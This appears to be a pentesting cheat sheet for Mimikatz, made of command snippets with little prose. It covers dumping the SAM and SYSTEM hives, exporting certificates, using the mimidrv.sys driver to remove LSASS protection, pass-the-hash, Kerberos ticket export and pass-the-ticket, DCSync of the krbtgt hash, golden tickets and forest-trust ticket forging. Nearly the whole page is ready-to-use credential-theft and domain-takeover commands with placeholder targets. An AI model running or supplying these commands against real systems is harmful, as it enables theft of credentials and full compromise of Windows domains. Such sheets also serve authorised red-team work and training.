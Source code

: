 # Mimikatz

## SAM File - Local accounts

#### Save files from registry

```csharp
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\SYSTEM SystemBkup.hiv
```

```csharp
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::SAM /SAM:C:\Users\b3v1l\Desktop\SAM /SYSTEM:C:\Users\b3v1l\Desktop\SYSTEM

```

```csharp
lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
```

![](../../../.gitbook/assets/image%20%28309%29.png)

## Export Certificats

```csharp
mimikatz# crypto::capi
mimikatz# privilege:debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

## Disable LSASS protection

### Manually

* Upload mimidrv.sys on the target
* Create a service task

```csharp
sc create mimidrv binpath= C:\temp\mimidrv.sys type= kernel start= demand
```

* Start the task

```csharp
sc start mimidrv
```

* Then, using mimikatz

```csharp
!processprotect /process:lsass.exe /remove
```

### Full mimikatz version

* Copy the mimikatz and sys driver on the disk
* Start mimikatz and load the driver. Disable Lsass protection

```csharp
privilege::debug
!+
!processprotect /process:lsass.exe /remove
```

## Pass the Hash

```csharp
Invoke-Mimikatz -Command '"sekurlsa::pth /user:targetaccount /domain:test.lab.local /ntlm:b38ff50
264bc43012185d82c69794a4d8 /run:powershell.exe"'
```

## Kerberos Tickets

### List tickets

```csharp
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

### Export tickets

```text
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### Pass the Ticket

```csharp
Invoke-Mimikatz -Command '"kerberos::ptt [0;9eaea]-2-0-60a10000-administrator@krbtgt-HOME.LAB.COM.kirbi"'
```

### Golden Ticket

#### Dcsync using a priv account on the dc 

```csharp
lsadump::dcsync /domain:target.domain.com /user:prod\krbtgt
```

#### Use krbtgt to impersonate anyone on the domain

```csharp
 kerberos::golden /user:Administrator /domain:target.domain.com /sid:S-1-5-21-634106289-36255656793-12345407 /id:500 /group/512 /krbtgt=dfdsfwefdccfbb7cc8eeadf7ce1 /startoffset=0 /endin=600 /renewmax:10080 /ptt
```

## DSync

{% hint style="info" %}
Replace /user:Domain\krbtgt by any username to get a specific hash
{% endhint %}

```csharp
 Invoke-Mimikatz -Command '"lsadump::dcsync /user:Domain\krbtgt"'
```

## Trust Key between Forest and Child

### Get the trusted key

```csharp
 Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.lab.test.local
```

### Get a ticket

```csharp
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:childomain.com /sid:<childomain.com SID> /sids:<main domain SID-519> /rc4:ea9815a
<trusted key hash> /service:krbtgt /target:maindomain.com /ticket:C:\temp\trust_tkt.kirbi"'
```

### Pass the ticket - SID history

```csharp
 Invoke-Mimikatz -Command '"kerberos::ptt krbtgt_tkt.kirbi"'
```

